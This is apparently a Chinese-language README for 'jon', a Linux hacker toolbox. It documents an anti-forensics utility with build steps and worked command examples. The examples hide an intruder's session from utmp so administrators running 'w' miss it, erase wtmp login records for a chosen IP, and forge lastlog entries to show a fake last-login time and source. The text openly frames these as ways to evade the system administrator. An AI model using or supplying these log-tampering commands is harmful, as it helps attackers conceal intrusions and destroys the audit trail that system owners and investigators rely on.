 # jon version 0.1
jon 是一款LINUX系统攻防工具箱，包含扫描，入侵，痕迹清理，木马，网站测试等各种黑客工具。

##安装方法(任选一种方法即可)
####方法一：
```Bash
[root@localhost jon]# yum -y install gcc autoconf cmake
[root@localhost jon]# aclocal
[root@localhost jon]# autoheader
[root@localhost jon]# automake --foreign --add-missing --copy
[root@localhost jon]# autoconf --warnings=all
[root@localhost jon]# ./configure
[root@localhost jon]# make
[root@localhost jon]# make install
```
####方法二：
```Bash
[root@localhost jon]# chmod +x autogen.sh
[root@localhost jon]# ./autogen.sh
```


##使用手册

#### -h 选项：用于指定要修改的文件的路径的，是个可选项。由于不同系统的日志存放路径不一样，可以手工指定。
```Bash
[root@localhost jon]# jon -h
jon v 0.1 for linux
Copyright (C) 2003 by jon <2182619@qq.com>

jon [-f utmp_filename] -u username ip               hide username from ip in utmp file
jon [-f wtmp_filename] -w username ip               hide username from ip in wtmp file
jon [-f lastlog_filename] -m username ip ttyname YYYY[:MM[:DD[:hh[:mm[:ss]]]]]  modify lastlog info
```

#### -f 选项：用于指定要修改的文件的路径的，是个可选项。由于不同系统的日志存放路径不一样，可以手工指定。
默认的日志存放地点是：
```c
#define UTMPFILE "/var/run/utmp"
#define WTMPFILE "/var/log/wtmp"
#define LASTLOGFILE "/var/log/lastlog"
```

#### -u 选项: 有时候你和管理员同时在线，管理员w一下就能看到你了。使用-u选项用户躲避管理员w查看，如下：
```Bash
[root@localhost jon]# w
 21:27:25 up 5 days, 13:48,  4 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM            LOGIN@   IDLE   JCPU   PCPU WHAT
root     tty1     -               Fri14   18:24m  0.33s  0.33s -bash
root     pts/3    192.168.1.8     20:21    6:22   0.04s  0.04s -bash
root     pts/2    192.168.1.8     20:06    0.00s  0.13s  0.00s w
root     pts/4    192.168.1.8     20:21    5:52   0.03s  0.03s -bash

我们是从192.168.1.8机器连上来的，现在隐藏下：
[root@localhost jon]# jon -h root 192.168.1.8
[root@localhost jon]# w
 21:27:46 up 5 days, 13:48,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM            LOGIN@   IDLE   JCPU   PCPU WHAT
root     tty1     -               Fri14   18:24m  0.33s  0.33s -bash
```

#### -w 选项:用于清除你的登录日志，现在上的linux日志清除工具做的很粗燥啊，这个可以指定清除某些ip过来的机器。
```Bash
[root@localhost jon]# last
root     tty1                         Wed Oct  1 21:30 - 21:30  (00:00)
root     pts/4        192.168.1.8     Wed Oct  1 21:21   still logged in
root     pts/3        192.168.1.8     Wed Oct  1 21:21   still logged in
wtmp begins Wed Oct  1 06:01:46 2008

清除192.168.1.8的登录日志：
[root@localhost jon]# jon -w root 192.168.1.8
[root@localhost jon]# last
root     tty1                         Wed Oct  1 21:30 - 21:30  (00:00)
wtmp begins Wed Oct  1 06:01:46 2008
```

#### -m 选项:用于修改上次登录地点，我们使用ssh登录的时候可能会注意到这点
```Bash
login as: root
Sent username "root"
root@192.168.1.28's password:
Last login: Wed Oct  1 21:31:40 2008 from 192.168.80.45

如果不修改lastlog的话，管理员下次登录就会提示从我们的机器IP登录。使用-m选项可以编辑这个选项：
[root@localhost jon]# jon -m root 192.168.0.0 tty10 2008:1:1:1:1:1
[root@localhost jon]#

当然，这只是个举例，在使用中各位请根据具体信息修改，下次管理员登录，登录界面就成了
login as: root
Sent username "root"
root@192.168.1.28's password:
Last login: Tue Jan  1 01:01:01 2008 from 192.168.0.0
```